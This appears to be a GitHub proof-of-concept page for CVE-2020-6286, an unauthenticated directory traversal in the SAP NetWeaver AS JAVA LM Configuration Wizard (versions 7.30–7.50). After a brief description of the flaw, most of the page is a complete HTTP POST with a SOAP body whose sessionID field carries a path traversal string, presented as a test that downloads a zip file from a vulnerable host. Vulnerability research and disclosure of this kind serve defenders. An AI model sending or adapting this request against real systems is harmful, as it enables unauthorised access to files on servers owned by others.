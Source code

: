 <b>[CVE-2020-6286] SAP NetWeaver AS JAVA (LM Configuration Wizard) Directory Traversal</b>
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
SAP NetWeaver is SAP’s integrated technology platform and the technical foundation of all SAP applications since SAP Business Suite. SAP NetWeaver is a service-oriented application and integration platform that provides a development and running environment for SAP applications, and can also be used for custom development and integration with other applications and systems. The insufficient input path validation of certain parameter in the web service of SAP NetWeaver AS JAVA (LM Configuration Wizard), versions `7.30, 7.31, 7.40, 7.50`, allows an <i>unauthenticated</i> attacker to exploit a method to download zip files to a specific directory, leading to Path Traversal.

For safety proof of concept, you can use the following request. If zip file is exist on remote host, then downloads `111.zip` file
```
POST /CTCWebService/CTCWebServiceBean HTTP/1.1
Host: host
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Type: text/xml;charset=UTF-8
SOAPAction: 
Content-Length: 340

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:CTCWebServiceSi">
    <soapenv:Header />
    <soapenv:Body>
        <urn:queryProtocol>
            <sessionID>/../../../../../../../../../../../../../../../../../..111</sessionID>
        </urn:queryProtocol>
    </soapenv:Body>
</soapenv:Envelope>
```
